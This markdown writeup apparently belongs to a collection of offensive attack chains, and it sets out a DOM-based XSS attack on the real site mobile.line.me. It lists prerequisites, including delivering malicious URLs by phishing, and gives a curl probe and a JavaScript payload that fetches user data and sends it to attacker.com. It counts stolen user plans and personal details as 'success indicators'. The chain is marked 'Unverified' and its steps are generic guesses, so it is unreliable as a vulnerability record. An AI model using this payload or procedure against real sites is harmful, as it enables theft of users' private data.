

# DOM-based XSS on mobile.line.me Leading to Unauthorized User Data Access

Multi-stage attack chain demonstrating exploitation of a DOM-based Cross-Site Scripting vulnerability on the mobile LINE service website, allowing script injection to steal sensitive user information.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser Developer Tools
- Proxy tool like Burp Suite (optional for interception)

### Target Environment

- Web platform
- Access to mobile.line.me
- No specific ports or services required beyond standard HTTPS (443)

### Initial Access Requirements

- Valid user session or public access to the vulnerable page
- Ability to craft and deliver malicious URLs (e.g., via phishing or direct testing)
- No prior credentials needed for initial injection, but victim interaction required for impact

## Detailed Attack Procedures

### Step 1: Exploit DOM-based XSS
procedure: [[procedures/Exploit-DOM-based-XSS-on-mobile-line-me]]

**Objective**: Inject malicious JavaScript into the DOM via unsanitized user-controlled input on mobile.line.me, leading to script execution in the victim's browser and potential exfiltration of sensitive data like mobile plans and usage details.

**Instructions**: Identify a page on mobile.line.me where user input (e.g., URL parameters or form data) is reflected into the DOM without proper sanitization, such as in location.hash or document.write. Craft a payload like 'javascript:alert(document.cookie)' and append it to a vulnerable parameter. Use browser dev tools to test execution, then escalate to data theft by sending fetched data to an attacker-controlled server.

First, navigate to the vulnerable endpoint and test with a basic payload using a direct URL manipulation:

```bash
# No bash command needed; use browser URL bar or curl to fetch and inspect
curl "https://mobile.line.me/?param=javascript:alert(1)" -v
```

Inspect the response in browser dev tools (F12) to confirm DOM manipulation. For exploitation, replace alert with exfiltration:

```javascript
// Injected via URL: ?param=javascript:fetch('/api/userdata').then(r=>r.text()).then(d=>fetch('https://attacker.com/exfil?data='+encodeURIComponent(d)))
```

**Expected Output**: Alert pops or network request to attacker server with stolen data (e.g., JSON containing mobile plans, usage stats, and user details).

**Success Indicators**:
- JavaScript executes (alert or console log appears)
- Sensitive data (e.g., user plans, personal details) is exfiltrated to attacker endpoint
- No server-side errors; DOM reflects input directly

## Attack Chain Summary

### Key Achievements

1. Successful injection and execution of malicious JavaScript in the victim's browser context.
2. Unauthorized access and exfiltration of user-specific data including mobile plans, usage history, and registered details.
3. Demonstration of high-impact privacy violation without server compromise.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
